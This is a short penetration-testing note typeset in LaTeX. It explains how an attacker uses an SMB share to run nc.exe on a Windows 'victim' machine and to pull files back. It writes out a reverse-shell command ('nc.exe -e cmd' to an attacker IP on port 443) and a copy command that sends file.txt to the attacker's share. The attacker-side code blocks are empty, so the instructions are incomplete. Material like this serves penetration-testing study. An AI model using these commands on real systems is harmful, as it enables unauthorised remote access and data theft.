 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\VariableTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\begin{document}
Imaging we want to execute nc.exe on the Windows machine but this one don't have \textbf{nc.exe}. We can download nc.exe and execute
it by sharing a SMB folder.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  On attacker machine

\begin{Shaded}
\end{Shaded}
\item
  On windows machine

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{\textbackslash{}\textbackslash{}10.}\FunctionTok{10}\NormalTok{.}\FunctionTok{10}\NormalTok{.}\FunctionTok{10}\NormalTok{\textbackslash{}smbFolder\textbackslash{}nc.}\FunctionTok{exe}\NormalTok{ -e cmd 10.}\FunctionTok{10}\NormalTok{.}\FunctionTok{10}\NormalTok{.}\FunctionTok{10}\NormalTok{ 443}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Share SMB can also be usefull to send files from the victim to the attacker machine. Imagine now that we want to retrieve file.txt
from the victim to the attacker machine.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  On attacker machine

\begin{Shaded}
\end{Shaded}
\item
  On windows machine

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{copy}\NormalTok{ file.}\FunctionTok{txt}\NormalTok{ \textbackslash{}\textbackslash{}10.}\FunctionTok{10}\NormalTok{.}\FunctionTok{10}\NormalTok{.}\FunctionTok{11}\NormalTok{\textbackslash{}smbFolder\textbackslash{}file.}\FunctionTok{txt}
\end{Highlighting}
\end{Shaded}
\end{enumerate}
\end{document}
